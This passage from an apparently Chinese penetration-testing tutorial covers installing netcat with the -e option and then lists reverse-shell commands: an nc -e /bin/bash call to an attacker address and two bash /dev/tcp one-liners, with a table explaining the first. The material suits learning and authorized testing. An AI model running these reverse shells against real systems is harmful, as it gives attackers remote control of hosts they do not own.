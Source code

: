 {% hideToggle 注释,orange, %}

1. 用形象但不完全准确地话来描述 Linux 安装软件时的相关命令。

{% blockquote 未知 https://www.sudytech.com/_s80/_t690/2018/0729/c3276a26052/page.psp %}

- `./configure` : 就是设计部出了一张设计稿，根据客户需要，符合各种要求。
- `make` : 就是前端组做好了模板。
- `make install` : 就是实施人员将模板上传至了后台，而且做了各种模板绑定，能真正看到实际展示效果。
- `make clean` : 清除编译产生的可执行文件及目标文件（ `object file` ，`*.o` ），也就是说 make 之后再来一条 make clean 就等于没有make过，这点在 make 出错时变得极为有用。
- `make distclean` : 这个就厉害了，它除了清除可执行文件和目标文件外，把 configure 所产生的 Makefile 也清除掉。运行过甚至相当于没有 configure 过。
- `make veryclean` : veryclean 是有多 clean？其实和 distclean 一样 clean。
- `make uninstall` : 虽然不是每个 sourcecode 包都有这个功能，但是这个东西确实是挺好的。想想看当你一时脑热直接 `./configure` 、`make` 、`make install` 之后，都不知道程序装去哪儿了，这时候就可以用这个进行卸载（当然 `uninstall` 只能执行1次，并且 sourcecode 目录中要有当前安装对应的 Makefile）。

{% endblockquote %}

2. 关于 Linux 环境变量的设置，可以参考这篇 [文章](https://blog.csdn.net/Solomon1558/article/details/51763751) 。

{% endhideToggle %}

安装完后输入 `nc -h` 检验，有 `-e` 参数说明安装成功了。

![netcat-0.7.1 安装成功](https://pic.imgdb.cn/item/647c13a1f024cca173273eea.png)

### nc 反弹 shell 命令

通过 `-e` 参数反弹 shell ：

``` bash
# 将[]换成自己的地址或端口
nc -e /bin/bash [LhostIP] [Port]      # 靶机
nc -lvvp [Port]                       # 攻击机
```

如图，已经反弹成功了：

![反弹成功](https://pic.imgdb.cn/item/647c13a1f024cca173273fb6.png)

## bash 一句话反弹

### 具体命令

``` bash
# 第一种
bash -i >& /dev/tcp/[LHostIP]/[Port] 0>&1
# 第二种
exec 5<>/dev/tcp/[LHostIP]/[Port];cat <&5 | while read line; do $line 2>&5 >&5; done
```

### bash 命令详解

第一条命令解释如下：

| 命令 | 解释 |
| ---- | ---- |
| `bash -i` | 产生一个 bash 交互环境 |
| `>&` | 将联合符号前面的内容与后面相结合，然后一起重定向给后者 |
| `/dev/tcp/[LHostIP]/[Port]` | 让靶机向攻击机建立 TCP 连接 |
| `0>&1` | 将标准输入与标准输出内容相结合，然后重定向给标准输出 |
